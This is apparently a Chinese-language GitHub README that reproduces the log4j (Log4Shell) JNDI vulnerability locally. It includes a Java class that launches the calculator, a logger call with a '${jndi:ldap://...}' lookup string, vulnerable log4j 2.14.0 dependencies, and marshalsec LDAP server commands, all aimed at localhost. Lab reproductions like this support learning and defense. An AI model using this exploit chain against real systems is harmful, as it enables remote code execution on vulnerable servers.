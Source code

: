 # apache-log4j本地漏洞复现

exp（弹出一个计算器）

```java
public class exp {
    static {
        try {
            String [] cmd={"calc"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

}
```

Main

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import java.io.IOException;

public class Main {
    public static final Logger logger = LogManager.getLogger(Main.class);
    public static void main(String[] args) throws IOException {
        logger.error("${jndi:ldap://127.0.0.1:1389/exp}");
    }
}
```

需要向pom.xml中导入以下配置

```xml
<dependencies>
        <!-- https://search.maven.org/ -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.0</version>
        </dependency>
        <!-- https://search.maven.org/ -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>
```

把exp的java源码用`javac exp.java`生成exp.class，记得最好单独放到一个文件夹里，在到这个文件夹下，用python2开个http服务`python -m http.server 8899`，如下说明成功

![image-20211210163035219](https://s2.loli.net/2021/12/10/d8AcUODlQP2RKxF.png)

复现之前，需要下载一个插件

`git clone git@github.com:mbechler/marshalsec.git`

用idea打开此项目，使用Maven生成jar包

先clean，然后package（中途可能会报错）

![image-20211210163227931](https://s2.loli.net/2021/12/10/6wPGI5TUkXgipn3.png)

然后单独用命令`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8899/#exp"`

![image-20211210163848110](https://s2.loli.net/2021/12/10/yALQ5SOj2mrpEqG.png)

运行后显示1389为监听端口，这也是为什么我的main函数中的端口为1389

这样就成功了

![image-20211210164000550](https://s2.loli.net/2021/12/10/p45r2MFinb6OW8d.png)

